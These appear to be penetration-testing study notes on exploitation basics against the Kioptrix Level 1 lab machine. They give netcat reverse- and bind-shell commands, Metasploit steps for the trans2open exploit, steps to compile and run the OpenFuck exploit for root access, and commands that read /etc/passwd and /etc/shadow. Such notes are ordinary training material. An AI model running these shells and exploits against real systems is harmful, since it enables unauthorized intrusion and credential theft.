 # Exploitation Basics

## Reverse Shells vs Bind Shells

### netcat

- reverse shell: a victim connects to us, we executes a linux bin shell when it connects, we're listening. 95% of cases.
- bind shell: we connect to a port on the target, the victim is listening. Uesful to bypass firewalls.

Reverse shell:

1. open a port: `nc -nvlp 4444`
2. `nc 192.168.92.128 4444 -e /bin/bash`

Bind shell:

1. `nc -nvlp 4444 -e /bin/bash`
2. connect to our victim: `nc 192.168.92.128 4444`

Note: `4444` is often blacklisted by antiviruses and firewalls.

## Staged vs Non-Staged Payloads

- non-staged payload: sends exploit shellcode all at once (large size, won't always work) (windows/meterpreter_reverse_tcp)
- staged payload: sends in stages (can be less stable), metasploit identifies them with an extra / (windows/meterpreter/reverse_tcp)

if one type is not working, try the other one.

## Gaining Root with Metasploit

1. run `msfconsole`
2. `search trans2open`, look for the targeted OS
3. `use 1`, then `options` to know which options to provide
4. `set rhosts 192.168.92.129`, then `options` again to check if it's set and `show targets`
5. type `run` or `exploit`, the payload is the issue, `options` again.
6. `set payload linux/x86/shell_reverse_tcp` with autocompletion to know our options, now it's a non-staged payload. `options` again to check if it's set.

we're in:

```
whoami
root
hostname
kioptrix.level1
```

## Manual Exploitation

With OpenFuck:

1. `git clone https://github.com/heltonWernik/OpenFuck.git && cd OpenFuck`
2. `apt install libssl-dev`
3. `gcc -o open OpenFuck.c -lcrypto`
4. `./open` to know the options you have to pass
5. `./open 0x6b 192.168.92.129 -c 40`, we know the type of machine thanks to our enumeration work, no port needed because we don't use ssl.

```
whoami
root
hostname
kioptrix.level1
```

Metasploit is more robust. OSCP certification exam doesn't allow Metasploit. Pen testers look for practicality.

- `sudo -l` to know our privileges.
- `cat /etc/passwd` to see passwords (only x placeholders, starting at 500 we have usernames: `john` and `harold`).
- `cat /etc/shadow` with hashes.

Post-exploitation: a new work of enumeration starts.

## Brute Force Attacks

## Credential Stuffing and Password Spraying

## Our Notes, Revisited
